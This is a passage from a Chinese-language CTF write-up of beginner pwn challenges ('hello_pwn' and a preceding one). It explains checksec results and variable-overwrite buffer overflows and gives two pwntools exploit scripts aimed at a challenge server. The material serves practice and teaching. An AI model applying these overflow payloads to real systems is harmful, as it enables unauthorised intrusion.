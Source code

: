 程序没有修改 return addr 因此不会触发 Canary 保护；程序内部本身就有 `cat flag` 的语句，因此开了 NX 也不会造成影响。

```python
#!/usr/bin/env python

from pwn import *

proc = './002de4a1cad84b0b8988bc3c42e1f007'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 59375)
else:
    p = process(proc)

p.sendlineafter('?', '2333')
p.sendlineafter('?', 'a' * 8 + p32(1926))

p.interactive()
```

## hello_pwn

> pwn！，segment fault！菜鸡陷入了深思

```
[*] '/ctf/work/adworld/hello_pwn/d50dee8a01694e9fbfe58ddcba84956a'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

保护只开了 NX ，其他啥都没开。

![](https://vip1.loli.net/2019/12/27/eYsET3aJfctv8lM.png)

看了看程序的主要逻辑，首先读取 0x10 个字节放到 `unk_601068` 的位置上，接着判断 `dword_60106C`是否等于 `1853186401` ，如果等于，则我们可以拿到 flag

![](https://vip1.loli.net/2019/12/27/RcBMU1wiJoStlpz.png)

接着看 `unk_601068` 和 `dword_60106C` 的位置和大小，`unk_601068` 只有 4 位，我们可以通过溢出覆盖下面的 `dword_60106C`，这样我们就能使程序逻辑运行到 getflag 的函数了。

```python
#!/usr/bin/env python

from pwn import *

proc = './d50dee8a01694e9fbfe58ddcba84956a'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 39742)
else:
    p = process(proc)

p.sendlineafter('bof', '2333' + p32(1853186401))

p.interactive()
```